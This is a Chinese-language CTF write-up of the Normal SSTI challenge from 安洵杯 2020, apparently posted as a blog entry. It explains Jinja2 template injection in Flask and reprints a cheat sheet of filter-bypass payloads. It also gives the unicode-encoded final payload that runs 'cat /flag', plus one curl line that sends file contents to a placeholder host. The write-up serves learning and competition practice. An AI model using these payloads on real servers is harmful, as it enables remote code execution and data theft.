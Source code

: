 ```yaml
---
date: 2024-05-31
categories: 
    - 安洵杯
tag:
    - CTF
    - SSTI
    - flask
    - jinja2
    - python
    
---
```


# 每日一题 —— [安洵杯 2020]Normal SSTI

> 题目地址： <https://www.nssctf.cn/problem/910>

<!-- more -->

## SSTI 前传

在此之前，我只在 MiniL2024 的比赛中，接触过简单无过滤的、golang 的 SSTI。但是现在是比较正式的 flask+jinja2 的 SSTI。因此这篇 wp, 比起作为题解，更像是作为 SSTI 学习笔记。

## 题目分析
根据题目提示，我们需要访问 `/test/?url=xxx`，其中 `xxx` 是一个参数，会回显在屏幕上。我们根据提示，知道了这道题是 flask 的 SSTI(偷看 tag 标签)。 我们测试一下 `{{1+2}}`, 发现被过滤了。我们尝试使用 `{%print(1)%}`, 发现这个 `{%print(1)%}` 并没有被过滤。

接下来我们要进行注入了。在此之前，我需要新学习一下 SSTI 的基本方法。首先我先创建了一个基本的 flask 程序。然后让 url 直接回显在屏幕上面。现在我使用这种以下的 url 访问， 可以直接实现 RCE:

```url
http://localhost:5000/?name={{"".__class__.__bases__[0].__subclasses__()[154].__init__.__globals__['popen']('cat$IFS/flag').read()}}
```

接下来分析一下，name 参数里的意义

- "": 这个是一个字符串，它的基类是 object, 我们通过 `"".__class__.__bases__[0]` 获取到了 object。
- `__subclasses__()[154]` : 这个就是 object 的子类，我们通过 `__subclasses__()` 获取到了所有的子类。然后我们通过网页的回显可以看到一大坨子类，我们找到了一个叫 `os._wrap_close` 的子类。这个模块可以用来执行命令。我们把所有的子类都复制到编辑器里面，把所有的除了逗号以外的都删掉，然后数一下逗号的个数，发现这个模块在第 154 个。我们利用 `__subclasses__()[154]` 获取到了这个模块。
- `__init__.__globals__['popen']` : 获取到了 `os._wrap_close` 的属性。
它的下面有一个 `popen` 方法，这个方法可以执行命令。
- `'cat$IFS/flag'` : 执行命令。在这里空格是不能出现的，因为会被 urlencode 为 `%20`，因此我们需要使用 `$IFS` 来代替空格。但是其实这不是最好的方法，还有一个绕过方法，就是将引号内所有内容进行 unicode encode （注意和 urlencode 区分开来）.


来自 [CSDN博客](https://blog.csdn.net/weixin_45669205/article/details/114373785) 抄来的笔记。之后可能会专门出一节 blog 用来做 SSTI 学习。

```
__class__            类的一个内置属性，表示实例对象的类。
__base__             类型对象的直接基类
__bases__            类型对象的全部基类（除object），以元组形式，类型的实例通常没有属性。 __bases__
__mro__              此属性是由类组成的元组，在方法解析期间会基于它来查找基类。
__subclasses__()     返回这个类的所有子类集合，Each class keeps a list of weak references to its immediate subclasses. This method returns a list of all those references still alive. The list is in definition order.
__init__             初始化类，返回的类型是function
__globals__          使用方式是 函数名.__globals__获取function所处空间下可使用的module、方法以及所有变量。
__dic__              类的静态函数、类函数、普通函数、全局变量以及一些内置的属性都是放在类的__dict__里
__getattribute__()   实例、类、函数都具有的__getattribute__魔术方法。事实上，在实例化的对象进行.操作的时候（形如：a.xxx/a.xxx()），都会自动去调用__getattribute__方法。因此我们同样可以直接通过这个方法来获取到实例、类、函数的属性。
__getitem__()        调用字典中的键值，其实就是调用这个魔术方法，比如a['b']，就是a.__getitem__('b')
__builtins__         内建名称空间，内建名称空间有许多名字到对象之间映射，而这些名字其实就是内建函数的名称，对象就是这些内建函数本身。即里面有很多常用的函数。__builtins__与__builtin__的区别就不放了，百度都有。
__import__           动态加载类和函数，也就是导入模块，经常用于导入os模块，__import__('os').popen('ls').read()]
__str__()            返回描写这个对象的字符串，可以理解成就是打印出来。
url_for              flask的一个方法，可以调用当前脚本中的函数，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
get_flashed_messages flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
lipsum               flask的一个方法，可以用于得到__builtins__，而且lipsum.__globals__含有os模块：{{lipsum.__globals__['os'].popen('ls').read()}}
current_app          应用上下文，一个全局变量。

request              可以用于获取字符串来绕过，包括下面这些，引用一下羽师傅的。此外，同样可以获取open函数:request.__init__.__globals__['__builtins__'].open('/proc\self\fd/3').read()
request.args.x1   	 get传参
request.values.x1 	 所有参数
request.cookies      cookies参数
request.headers      请求头参数
request.form.x1   	 post传参	(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
request.data  		 post传参	(Content-Type:a/b)
request.json		 post传json  (Content-Type: application/json)

config               当前application的所有配置。此外，也可以这样{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
self.__dict__		 保存当前类实例或对象实例的属性变量键值对字典，
{%print("DMIND")%}	 控制语句中也能输出

拼接字符：{% set ind=dict(ind=a,ex=a)|join%}		变量ind=index
获取字符：{{lipsum|string|list|attr('pop')(18)}} 相当于：lipsum|string|list|attr('pop')(18)  输出：_（下划线）
得到数字：{{lipsum|string|list|attr('index')('g')}} 相当于lipsum|string|list|attr('index')('g') 输出：10
运算出其他数字：{% set shiba=ten%2bten-two %}        %2b是URL编码后的加号

得到数字：{{dict(a=a)|lower|list|count}}得到16
运算出其他数字：{{dict(aa=a)|lower|list|count-dict(a=a)|lower|list|count}}得到1

得到任意字符：{{dict(dmind=a)|slice(1)|first|first}}得到dmind

获取__builtins__属性：{{lipsum.__globals__|attr('get')('__builtins__')}}		利用get()、pop()获取属性，相当于lipsum.__globals__.get('__builtins__')

lipsum.__globals__.__builtins__  相当于  lipsum|attr('__globals__')|attr('get')('__builtins__')
lipsum.__globals__.__builtins__.chr(95)  相当于  lipsum|attr('__globals__')|attr('get')('__builtins__')|attr('get')('chr')(95)

得到chr函数：{%set chr=lipsum.__globals__.__builtins__.chr%}
利用chr()得到字符：{{chr(47)~chr(32)}}  47是/  32是空格  ~是连接符

利用os执行命令：lipsum.__globals__.os.popen('dir').read()  相当于  lipsum|attr('__globals__')|attr('get')('os')|attr('popen')('dir')|attr('read')()
类似的		  url_for['__globals__']['os']['popen']('dir').read()

简单的读取文件：url_for["__globa"+"ls__"].__builtins__.open("flag.txt").read()

在能执行eval情况下：eval(__import__('so'[::-1]).__getattribute__('syste'%2b'm')('curl http://xxx:4567?p=`cat /f*`'))
```

通篇看下来，对于这道题而言，因为使用的是 flask+jinja2, 所以还有一个更简单的 payload：
```
lipsum.__globals__['os'].popen('ls').read()
``` 
这个的原理是什么呢，我们看一下 flask 内的方法，有一个 lipsum 类，它里面有 os 模块。我们通过 `lipsum.__globals__['os']` 获取到了 os 模块，然后我们就可以使用 os 模块的 popen 方法来执行命令。

重新回到这道题，我们根据各种尝试，发现过滤了`空格`, `{{`, `[]`, `.`, 所以我们不能简单地使用这个方法。我们需要使用 `attr` 方法绕过。对于 `lipsum|attr('__globals__')`, 其实等效于 `lipsum.__globals__`，因此可以知道，attr 就是用来获取属性的。因此，我们的 payload 可以改写成 `lipsum|attr('__globals__')|attr('get')('os')|attr('popen')('ls').read()`。

最后一步，我们发现有一部分字符串被过滤了，我们就可以把引号里面的内容进行 unicode encode，最后完成命令执行.

最终 payload 如下：
```
?url={%print(lipsum|attr("\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f")|attr("\u0067\u0065\u0074")("os")|attr("popen")("\u0063\u0061\u0074\u0020\u002f\u0066\u006c\u0061\u0067")|attr("read")())%}
```
其中，命令执行的部分解码为： `cat /flag`。可以通过多次 RCE 得出最终 payload.

---
ps: 经过命令执行，我读取了他的源代码，经过一番整理如下：

```python
from flask import * 
app = Flask(__name__) 
url_black_list = ['%1c', '%1d', '%1f', '%1e', '%20', '%2b', '%2c', '%3c', '%3e'] 
black_list = ['.', '[', ']', '{{', '=', '_', '\'', '""', '\\x', 'request', 'config', 'session', 'url_for', 'g', 'get_flashed_messages', '*', 'for', 'if', 'format', 'list', 'lower', 'slice', 'striptags', 'trim', 'xmlattr', 'tojson', 'set', '=', 'chr'] 
@app.route('/', methods=['GET', 'POST']) 
def index():
    return 'try to check /test?url=xxx' 

@app.route('/test', methods=['GET']) 
def testing(): 
    url = request.url 
    for black in url_black_list:
        if black in url:
            return '<h1>do a real p1g</h1>' 
    url = request.args.get('url') 
    for black in black_list:
        if black in url: 
            return '<h1>do a real p1g</h1>' 
    return render_template_string('<h1>this is your url {}</h1>'.format(url)) 

if __name__ == '__main__': 
    app.run(host='0.0.0.0', port=8899, debug=True)
```

---
声明：本题解首次采用 vscode+comate 编写，即百度文心 AI 辅助生成。确实不错，写这篇 markdown 文件都能猜到我想要干什么。